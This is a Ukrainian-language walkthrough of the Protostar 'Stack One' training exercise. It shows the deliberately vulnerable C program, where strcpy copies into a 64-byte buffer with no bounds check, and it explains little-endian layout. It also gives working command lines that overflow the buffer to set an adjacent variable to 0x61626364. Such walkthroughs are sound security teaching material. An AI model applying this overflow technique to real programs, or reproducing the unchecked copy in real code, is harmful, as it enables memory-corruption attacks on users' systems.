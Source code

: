 ## [Stack One](http://exploit.education/protostar/stack-one/)

На даному рівні розглядається концепція модифікації змінних до певних значень у програмі та спосіб розміщення змінних у пам’яті.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Код схожий до попереднього рівня. У нас досі є ```volatile``` і буфер на 64 байти. Але замість ```gets()``` використовується ```strcpy()```. 
Дана функція приймає два аргументи: ```destination``` і ```source```. Вона копіює дані із рядка, на який вказує аргумент ```source```, у рядок, на який вказує аргумент ```destination```, 
поки не зустрінеться символ кінця рядка. Копіювання відбувається разом із символом кінця рядка. Якщо рядки перекриваються, то результат копіювання буде невизначений.  
Ще однією відмінністю від попереднього рівня є те, що змінна ```modified``` повинна дорівнювати 0x61626364.  

Спробуємо запусти код із попереднього рівня для перевірки результату. Тільки цього разу потрібно скористатися BASH для підстановки значення, щоб використовувати наш вивід у якості аргументу:  
```./stack1 $(python -c "print 'a' * 65")```

У результаті буде отримано: "Try again, you got 0x00000061". Якщо подивитися у таблицю ASCII-символів, то символ 'a' якраз має значення 0x00000061 у шістнадцятковій системі. 
До речі, 0x61626364 очевидно буде 'abcd'. Отже, можна просто ввести 64 символи у буфер, а останніми задати 'abcd'. 
Але насправді тут є один нюанс під назвою little endian (числа у пам'яті перевернуті). Отже, потрібно зробити реверс рядка. Маємо наступну команду:  
```./stack1 $(python -c "print('a' * 64 + 'abcd'[::-1])")```

Ну або більш універсальний спосіб (щоб не вгадувати коди необхідних символів):  
```./stack1 $(python -c "print('a' * 64 + '\x61\x62\x63\x64'[::-1])")```